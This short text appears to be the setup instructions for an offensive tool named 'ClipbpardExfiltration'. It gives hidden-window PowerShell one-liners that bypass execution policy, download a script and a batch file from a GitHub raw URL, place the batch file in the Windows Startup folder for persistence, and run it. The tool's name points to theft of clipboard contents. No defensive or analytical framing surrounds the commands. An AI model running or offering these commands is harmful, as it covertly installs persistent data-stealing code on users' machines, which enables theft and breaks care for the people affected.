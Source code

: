 Save update.ps1 to $env:userprofile\AppData\Roaming 

    powershell -w h -NoP -NonI -Ep Bypass 'Invoke-WebRequest -Uri "https://raw.githubusercontent.com/offport/ClipbpardExfiltration/main/update.ps1" -OutFile "$env:userprofile\AppData\Roaming\update.ps1" -UseBasicParsing'

Then save the bat file into startup programs

    powershell -w h -NoP -NonI -Ep Bypass 'Invoke-WebRequest -Uri "https://raw.githubusercontent.com/offport/ClipbpardExfiltration/main/per.bat" -OutFile "$env:APPDATA\Microsoft\Windows\Start` Menu\Programs\Startup\per.bat" -UseBasicParsing'

Then run the bat file for the first time

    Invoke-Expression -Command "& '$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\per.bat'" 
